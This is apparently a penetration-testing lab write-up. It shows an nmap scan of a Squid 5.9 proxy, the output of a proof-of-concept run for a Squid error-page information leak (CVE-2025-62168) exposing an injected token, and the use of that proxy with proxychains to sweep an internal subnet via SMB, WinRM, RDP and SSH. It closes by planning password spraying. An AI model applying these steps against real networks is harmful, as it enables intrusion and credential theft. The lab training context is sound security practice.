


Judging by the NMAP screen this must be definitely the PROXY machine:

```bash
PORT     STATE SERVICE    REASON         VERSION
22/tcp   open  ssh        syn-ack ttl 63 OpenSSH 8.9p1 Ubuntu 3ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 c7:cd:1e:d9:39:fb:be:6d:c4:f4:ba:ab:58:92:17:e9 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBPXNwoJYzOzz0K2JR4AtPFa3RMCctqlV7bX/0r7S4+kLU1ZxrqpGq8rFsciMBgiXrFUPcMmbQDBgWl/c2dp2L5Q=
|   256 5c:e8:e2:b1:00:f7:a2:b0:fa:15:47:98:6c:b9:4e:47 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAICm80WNVgRnaq/3iDVR7hpPOZmTgfCKNehGpSzteXXDz
8080/tcp open  http-proxy syn-ack ttl 63 Squid http proxy 5.9
|_http-server-header: squid/5.9
|_http-title: ERROR: The requested URL could not be retrieved
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose|router
Running (JUST GUESSING): Linux 4.X|5.X|2.6.X|3.X (97%), MikroTik RouterOS 7.X (97%)
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5 cpe:/o:mikrotik:routeros:7 cpe:/o:linux:linux_kernel:5.6.3 cpe:/o:linux:linux_kernel:2.6 cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:6.0
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
Aggressive OS guesses: Linux 4.15 - 5.19 (97%), Linux 5.0 - 5.14 (97%), MikroTik RouterOS 7.2 - 7.5 (Linux 5.6.3) (97%), Linux 2.6.32 - 3.13 (91%), Linux 3.10 - 4.11 (91%), Linux 3.2 - 4.14 (91%), Linux 3.4 - 3.10 (91%), Linux 4.15 (91%), Linux 2.6.32 - 3.10 (91%), Linux 4.19 - 5.15 (91%)
No exact OS matches for host (test conditions non-ideal).
TCP/IP fingerprint:
SCAN(V=7.98%E=4%D=3/27%OT=22%CT=%CU=%PV=Y%DS=2%DC=T%G=N%TM=69C65901%P=x86_64-pc-linux-gnu)
SEQ(SP=100%GCD=1%ISR=105%TI=Z%II=I%TS=A)
SEQ(SP=106%GCD=1%ISR=10B%TI=Z%II=I%TS=A)
OPS(O1=M552ST11NW7%O2=M552ST11NW7%O3=M552NNT11NW7%O4=M552ST11NW7%O5=M552ST11NW7%O6=M552ST11)
WIN(W1=FE88%W2=FE88%W3=FE88%W4=FE88%W5=FE88%W6=FE88)
ECN(R=Y%DF=Y%TG=40%W=FAF0%O=M552NNSNW7%CC=Y%Q=)
T1(R=Y%DF=Y%TG=40%S=O%A=S+%F=AS%RD=0%Q=)
T2(R=N)
T3(R=N)
T4(R=Y%DF=Y%TG=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)
U1(R=N)
IE(R=Y%DFI=N%TG=40%CD=S)

```

# Proxy

The page on the port TCP/8080 shows that this is the Squid proxy in flavored version 5.9.



And an immediate check shows traces of a Information disclosure bug? https://www.runzero.com/blog/squid/

And I was able to dump something out of it:

```bash
─$ python3 cve-2025-62168.py --proxy http://10.10.110.3:8080 --verbose 
------------------------------------------------------------
 STEP 1 — Connecting to proxy...
------------------------------------------------------------
 Proxy: http://10.10.110.3:8080

------------------------------------------------------------
 STEP 2 — Sending request with injected token...
------------------------------------------------------------
 Injected Header: X-Test-Leak: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.ewo...

[DEBUG] Preparing request...
[DEBUG] Proxy: http://10.10.110.3:8080
[DEBUG] Target URL: http://nonexistent.krakhen-test.local/
[DEBUG] Injected header: X-Test-Leak: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.ewogICJzdWIiOiAiMTIzNDU2Nzg5MCIsCiAgIm5hbWUiOiAia3Jha2hlbi5kZXYiLAogICJhZG1pbiI6IHRydWUsCiAgImlhdCI6IDE1MTYyMzkwMjIKfQo.LspWRdaIXcXllUuABCsYXRqBoKseG5vlb_YIW259aiU
[DEBUG] User-Agent: krakhen.dev-cve-2025-62168-poc

[DEBUG] Response headers:
    Server: squid/5.9
    Mime-Version: 1.0
    Date: Fri, 27 Mar 2026 10:35:35 GMT
    Content-Type: text/html;charset=utf-8
    Content-Length: 3792
    X-Squid-Error: ERR_READ_ERROR 0
    Vary: Accept-Language
    Content-Language: en
    X-Cache: MISS from proxy
    X-Cache-Lookup: MISS from proxy:8080
    Via: 1.1 proxy (squid/5.9)
    Connection: keep-alive


------------------------------------------------------------
 STEP 3 — Server responded, extracting error page...
------------------------------------------------------------

------------------------------------------------------------
 STEP 4 — Parsing mailto block from Squid error page...
------------------------------------------------------------
mailto:webmaster?subject=CacheErrorInfo%20-%20ERR_READ_ERROR&body=CacheHost%3A%20proxy%0D%0AErrPage%3A%20ERR_READ_ERROR%0D%0AErr%3A%20%5Bnone%5D%0D%0ATimeStamp%3A%20Fri,%2027%20Mar%202026%2010%3A35%3A35%20GMT%0D%0A%0D%0AClientIP%3A%2010.10.14.18%0D%0A%0D%0AHTTP%20Request%3A%0D%0AGET%20%2F%20HTTP%2F1.1%0AUser-Agent%3A%20krakhen.dev-cve-2025-62168-poc%0D%0AX-Test-Leak%3A%20eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.ewogICJzdWIiOiAiMTIzNDU2Nzg5MCIsCiAgIm5hbWUiOiAia3Jha2hlbi5kZXYiLAogICJhZG1pbiI6IHRydWUsCiAgImlhdCI6IDE1MTYyMzkwMjIKfQo.LspWRdaIXcXllUuABCsYXRqBoKseG5vlb_YIW259aiU%0D%0AAccept%3A%20*%2F*%0D%0AAccept-Encoding%3A%20gzip,%20deflate,%20br,%20zstd%0D%0AHost%3A%20nonexistent.krakhen-test.local%0D%0A%0D%0A%0D%0A

------------------------------------------------------------
 STEP 5 — TOKEN LEAK CONFIRMED
------------------------------------------------------------
 eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.ewogICJzdWIiOiAiMTIzNDU2Nzg5MCIsCiAgIm5hbWUiOiAia3Jha2hlbi5kZXYiLAogICJhZG1pbiI6IHRydWUsCiAgImlhdCI6IDE1MTYyMzkwMjIKfQo.LspWRdaIXcXllUuABCsYXRqBoKseG5vlb_YIW259aiU

------------------------------------------------------------
 STEP 6 — Decoding JWT token...
------------------------------------------------------------
Header:
{
    "alg": "HS256",
    "typ": "JWT"
}

Payload:
{
    "sub": "1234567890",
    "name": "krakhen.dev",
    "admin": true,
    "iat": 1516239022
}

Signature:
LspWRdaIXcXllUuABCsYXRqBoKseG5vlb_YIW259aiU


---------------- RAW HTML (DEBUG) ----------------
<!DOCTYPE html PUBLIC "-//W3C//DTD HTML 4.01//EN" "http://www.w3.org/TR/html4/strict.dtd">
<html><head>
<meta type="copyright" content="Copyright (C) 1996-2020 The Squid Software Foundation and contributors">
<meta http-equiv="Content-Type" content="text/html; charset=utf-8">
<title>ERROR: The requested URL could not be retrieved</title>
<style type="text/css"><!-- 
 /*
 * Copyright (C) 1996-2023 The Squid Software Foundation and contributors
 *
 * Squid software is distributed under GPLv2+ license and includes
 * contributions from numerous individuals and organizations.
 * Please see the COPYING and CONTRIBUTORS files for details.
 */

/*
 Stylesheet for Squid Error pages
 Adapted from design by Free CSS Templates
 http://www.freecsstemplates.org
 Released for free under a Creative Commons Attribution 2.5 License
*/

/* Page basics */
* {
    font-family: verdana, sans-serif;
}

html body {
    margin: 0;
    padding: 0;
    background: #efefef;
    font-size: 12px;
    color: #1e1e1e;
}

/* Page displayed title area */
#titles {
    margin-left: 15px;
    padding: 10px;
    padding-left: 100px;
    background: url('/squid-internal-static/icons/SN.png') no-repeat left;
}

/* initial title */
#titles h1 {
    color: #000000;
}
#titles h2 {
    color: #000000;
}

/* special event: FTP success page titles */
#titles ftpsuccess {
    background-color:#00ff00;
    width:100%;
}

/* Page displayed body content area */
#content {
    padding: 10px;
    background: #ffffff;
}

/* General text */
p {
}

/* error brief description */
#error p {
}

/* some data which may have caused the problem */
#data {
}

/* the error message received from the system or other software */
#sysmsg {
}

pre {
}

/* special event: FTP / Gopher directory listing */
#dirmsg {
    font-family: courier, monospace;
    color: black;
    font-size: 10pt;
}
#dirlisting {
    margin-left: 2%;
    margin-right: 2%;
}
#dirlisting tr.entry td.icon,td.filename,td.size,td.date {
    border-bottom: groove;
}
#dirlisting td.size {
    width: 50px;
    text-align: right;
    padding-right: 5px;
}

/* horizontal lines */
hr {
    margin: 0;
}

/* page displayed footer area */
#footer {
    font-size: 9px;
    padding-left: 10px;
}


body
:lang(fa) { direction: rtl; font-size: 100%; font-family: Tahoma, Roya, sans-serif; float: right; }
:lang(he) { direction: rtl; }
 --></style>
</head><body id=ERR_READ_ERROR>
<div id="titles">
<h1>ERROR</h1>
<h2>The requested URL could not be retrieved</h2>
</div>
<hr>

<div id="content">
<p>The following error was encountered while trying to retrieve the URL: <a href="http://nonexistent.krakhen-test.local/">http://nonexistent.krakhen-test.local/</a></p>

<blockquote id="error">
<p><b>Read Error</b></p>
</blockquote>

<p id="sysmsg">The system returned: <i>[No Error]</i></p>

<p>An error condition occurred while reading data from the network. Please retry your request.</p>

<p>Your cache administrator is <a href="mailto:webmaster?subject=CacheErrorInfo%20-%20ERR_READ_ERROR&amp;body=CacheHost%3A%20proxy%0D%0AErrPage%3A%20ERR_READ_ERROR%0D%0AErr%3A%20%5Bnone%5D%0D%0ATimeStamp%3A%20Fri,%2027%20Mar%202026%2010%3A35%3A35%20GMT%0D%0A%0D%0AClientIP%3A%2010.10.14.18%0D%0A%0D%0AHTTP%20Request%3A%0D%0AGET%20%2F%20HTTP%2F1.1%0AUser-Agent%3A%20krakhen.dev-cve-2025-62168-poc%0D%0AX-Test-Leak%3A%20eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.ewogICJzdWIiOiAiMTIzNDU2Nzg5MCIsCiAgIm5hbWUiOiAia3Jha2hlbi5kZXYiLAogICJhZG1pbiI6IHRydWUsCiAgImlhdCI6IDE1MTYyMzkwMjIKfQo.LspWRdaIXcXllUuABCsYXRqBoKseG5vlb_YIW259aiU%0D%0AAccept%3A%20*%2F*%0D%0AAccept-Encoding%3A%20gzip,%20deflate,%20br,%20zstd%0D%0AHost%3A%20nonexistent.krakhen-test.local%0D%0A%0D%0A%0D%0A">webmaster</a>.</p>
<br>
</div>

<hr>
<div id="footer">
<p>Generated Fri, 27 Mar 2026 10:35:35 GMT by proxy (squid/5.9)</p>
<!-- ERR_READ_ERROR -->
</div>
</body></html>

--------------------------------------------------

------------------------------------------------------------
 DONE — PoC completed successfully.
------------------------------------------------------------

```

# Back on track

Now here I asked myselft if it was possible to use the Squid as proxy in proxychains and send the traffic back to the internal subnet 172.16.21.0/24 (the reason I guessed this is because I know that it is the SIEM internal site):

```bash
ProxyList]
# add proxy here ...
# meanwile
# defaults set to "tor"
#socks4 127.0.0.1 1080
http	10.10.110.3	8080

```

And I have not a list over the Linux(SSH) and the Windows machines:

```bash
└─$ proxychains netexec smb 172.16.21.0/24 2>/dev/null 
SMB         172.16.21.10    445    S021M005         [*] Windows Server 2022 Build 20348 x64 (name:S021M005) (domain:work.junon.vl) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         172.16.21.140   445    S021W105         [*] Windows 10 / Server 2019 Build 19041 x64 (name:S021W105) (domain:work.junon.vl) (signing:False) (SMBv1:None)
SMB         172.16.21.195   445    S021M015         [*] Windows Server 2022 Build 20348 x64 (name:S021M015) (domain:work.junon.vl) (signing:False) (SMBv1:None)
SMB         172.16.21.180   445    S021M010         [*] Windows Server 2022 Build 20348 x64 (name:S021M010) (domain:work.junon.vl) (signing:False) (SMBv1:None) (Null Auth:True)
SMB         172.16.21.222   445    S021M200         [*] Windows Server 2022 Build 20348 x64 (name:S021M200) (domain:eu.junon.vl) (signing:True) (SMBv1:None) (Null Auth:True)
Running nxc against 256 targets ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━ 100% 0:00:00
                                                                                                                                                               
┌──(user㉿kali-almi)-[~/Downloads/Wutai]
└─$ proxychains netexec mssql 172.16.21.0/24 2>/dev/null 
Running nxc against 256 targets ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━ 100% 0:00:00
                                                                                                                                                               
┌──(user㉿kali-almi)-[~/Downloads/Wutai]
└─$ proxychains netexec winrm 172.16.21.0/24 2>/dev/null 
WINRM       172.16.21.10    5985   S021M005         [*] Windows Server 2022 Build 20348 (name:S021M005) (domain:work.junon.vl) 
WINRM       172.16.21.180   5985   S021M010         [*] Windows Server 2022 Build 20348 (name:S021M010) (domain:work.junon.vl) 
WINRM       172.16.21.195   5985   S021M015         [*] Windows Server 2022 Build 20348 (name:S021M015) (domain:work.junon.vl) 
WINRM       172.16.21.222   5985   S021M200         [*] Windows Server 2022 Build 20348 (name:S021M200) (domain:eu.junon.vl) 
WINRM       172.16.21.223   5985   S021M215         [*] Windows Server 2022 Build 20348 (name:S021M215) (domain:eu.junon.vl) 
Running nxc against 256 targets ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━ 100% 0:00:00
                                                                                                                                                               
┌──(user㉿kali-almi)-[~/Downloads/Wutai]
└─$ proxychains netexec rdp 172.16.21.0/24 2>/dev/null 
RDP         172.16.21.10    3389   S021M005         [*] Windows 10 or Windows Server 2016 Build 20348 (name:S021M005) (domain:work.junon.vl) (nla:True)
RDP         172.16.21.222   3389   S021M200         [*] Windows 10 or Windows Server 2016 Build 20348 (name:S021M200) (domain:eu.junon.vl) (nla:True)
RDP         172.16.21.140   3389   S021W105         [*] Windows 10 or Windows Server 2016 Build 19041 (name:S021W105) (domain:work.junon.vl) (nla:True)
RDP         172.16.21.195   3389   S021M015         [*] Windows 10 or Windows Server 2016 Build 20348 (name:S021M015) (domain:work.junon.vl) (nla:True)
Running nxc against 256 targets ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━╸ 100% -:--:--
Running nxc against 256 targets ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━╸ 100% -:--:--
Running nxc against 256 targets ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━╸ 100% -:--:--
Running nxc against 256 targets ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━╸ 100% -:--:--
Running nxc against 256 targets ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━╸ 100% -:--:--
Running nxc against 256 targets ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━╸ 100% -:--:--

^C
^C
                                                                                                                                                               
┌──(user㉿kali-almi)-[~/Downloads/Wutai]
└─$ proxychains netexec ssh 172.16.21.0/24 2>/dev/null 
SSH         172.16.21.15    22     172.16.21.15     [*] SSH-2.0-OpenSSH_8.9p1 Ubuntu-3ubuntu0.13
SSH         172.16.21.50    22     172.16.21.50     [*] SSH-2.0-OpenSSH_8.9p1 Ubuntu-3ubuntu0.13
SSH         172.16.21.100   22     172.16.21.100    [*] SSH-2.0-OpenSSH_8.9p1 Ubuntu-3ubuntu0.13
SSH         172.16.21.240   22     172.16.21.240    [*] SSH-2.0-OpenSSH_8.2p1 Ubuntu-4ubuntu0.5
Running nxc against 256 targets ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━ 100% 0:00:00
                                                                                                                                                               
┌──(user㉿kali-almi)-[~/Downloads/Wutai]
└─$ 


```

Now I need to password spray some passwords on this work domain:



I will momentaly move on to the Windows enumeration.